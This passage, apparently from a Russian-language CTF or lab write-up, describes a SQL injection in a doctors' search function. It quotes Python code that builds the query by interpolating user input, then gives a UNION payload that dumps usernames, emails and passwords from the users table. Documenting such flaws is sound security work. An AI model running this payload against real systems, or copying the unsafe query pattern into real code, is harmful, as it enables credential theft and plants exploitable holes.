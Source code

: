 ![ScreenShot](screenshots/medok-3.png)

---

### Vuln 2: SQLi in doctors' search

Данная уязвимость происходит в скрипте **utils.py**, функции **get_doctors_from_db()** при составлении запроса к БД. Как видно из кода, пользовательский ввод передается в зарос напрямую, без фильтрации:

```python
query = f"""
    SELECT * FROM doctors
    WHERE LOWER(full_name) LIKE '%{search_query.lower()}%'
"""
cursor.execute(query)
```

Уязвимый участок кода может быть использован для выгрузки информации из других таблиц, в частности таблицы users:

```SQL
%' UNION SELECT 1, 2, username, 3, email, password from users -- -
```
